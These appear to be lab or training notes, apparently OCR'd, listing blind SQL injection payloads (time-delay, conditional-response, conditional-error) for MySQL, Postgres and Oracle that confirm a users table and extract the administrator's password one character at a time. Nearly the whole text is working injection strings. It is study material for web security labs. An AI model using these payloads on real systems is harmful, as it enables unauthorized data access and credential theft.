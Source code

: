 Question 1  Time Delay
' || (SELECT sleep(10))--        -- My SQL doesn't Works
' || (SELECT pg_sleep(10))--     -- Postgres SQL Works

rurdakumarmishra@gmail.com




Question 2  Blind SQL injection with conditional responses
' and 1=1--  True (Works, its vulnerable to Blind SQL injection)
' and 1=2--  Flase(Works, its vulnerable to Blind SQL injection)
' and (select 'x' from users LIMIT 1)='x'--  (True Users table exist)

' and (select username from users where username='administrator')='administrator'--  (True 'administrator' user exist)

' and (select username from users where username='administrator' and length(password)>19)='administrator'--  (True length of password 19 characters)

Check Passwords---
' and (select substring(password,1,1) from users where username='administrator')='a'-- 





Question 3  Blind SQL injection with conditional error
' || (select '' from dual) || '   (Oracle Database)
' || (select '' from users where rownum=1) || '   (Users table exist)
' || (select '' from users where username='administrator') || '   ( 'administrator' user exist)
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>19) || '  (password == 20chars)
 ' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substring(password,1,1)='a') || '





Question 4  Blind SQL injection with time delays and information retrieval

' || pg_sleep(10)-- Vulnerable
' || (select case when (1=1) then pg_sleep(2) else pg_sleep(-1) end from users)--
' || (select case when (username='administrator') then pg_sleep(2) else pg_sleep(-1) end from users)--
' || (select case when (username='administrator' and length(password)=20) then pg_sleep(2) else pg_sleep(-1) end from users)--
' || (select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(2) else pg_sleep(-1) end from users)--




Question 5 Blind SQL injection with out-of-band interaction
















